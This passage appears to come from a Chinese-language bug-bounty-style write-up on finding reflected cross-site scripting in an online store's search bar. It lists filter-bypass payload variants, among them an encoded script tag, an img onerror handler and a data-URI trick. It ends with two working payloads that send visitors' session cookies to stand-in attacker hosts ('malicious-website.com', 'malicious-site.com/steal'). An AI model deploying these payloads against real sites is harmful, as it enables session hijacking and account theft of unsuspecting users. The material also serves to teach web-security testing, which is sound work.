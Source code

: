 # 步骤 3：真正的挑战——理解输入清理  
  
我知道商店的搜索栏可能存在漏洞，但当时并不清楚为什么我的简单脚本无法执行。页面可能设置了输入过滤机制，以阻止诸如此类的基本脚本<script>alert()</script>。这时我遇到了瓶颈。我花了几个小时研究网站通常如何过滤输入，尝试了各种不同的payload，并逐一测试。  
  
  
以下是我使用的常见有效载荷列表，这些有效载荷经过修改，试图绕过清理：  
## 有效载荷变体：  
##   
  
**编码版本**  
```
%3Cscript%3Ealert('XSS')%3C/script%3E
```  
  
****  
**事件处理程序**  
```
<img src="x" onerror="alert('XSS')">
```  
  
****  
**Base64编码**  
```
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAUA..." onerror="alert('XSS')">
```  
  
  
尽管尝试了这些不同的编码，页面仍然没有执行任何脚本。我感到很沮丧。我几乎要放弃了，心想这个网站可能已经打了补丁。但后来，我想到了一个不同的方法。也许这个页面的XSS漏洞并非直接来自搜索栏，而是通过产品搜索结果。这种新的思路是我的突破口。  
  
# 步骤4：浏览产品列表——发现的关键  
  
我决定深入研究产品列表，因为许多电商网站会在页面元数据或产品名称中显示搜索查询。经过进一步检查，我发现，当你搜索某个产品时，搜索词会反映在页面标题和结果中。  
  
## 再次测试  
  
我重新查看了搜索栏，这次重点关注了产品名称的显示方式。我稍微修改了有效载荷，以专注于以下反射输出：  
```
<script>
document.location='http://malicious-website.com?cookie=' + document.cookie;
</script>
```  
  
  
我把这段代码插入搜索栏，然后按下回车键。我成功地在页面标题和产品结果中注入了脚本。  
  
# 步骤 5：验证——整个过程中最困难的部分  
  
找到第一个有效的payload后，我需要测试它在不同用户和产品页面上是否一致，以及是否可被利用。这个过程非常令人沮丧，因为我必须不断检查结果，并确保每个访问该页面的访问者都会受到影响。  
  
## 坚持就有回报：  
- 我创建了一个脚本，可以窃取会话 cookie 并将其发送到我自己的服务器，确保如果漏洞被利用，我可以收集足够的证据来验证其严重性。  
这是我使用的最终有效载荷：  
```
<script>
    var x = new XMLHttpRequest();
    x.open("GET", "http://malicious-site.com/steal?cookie=" + document.cookie, true);
    x.send();
</script>
```  
  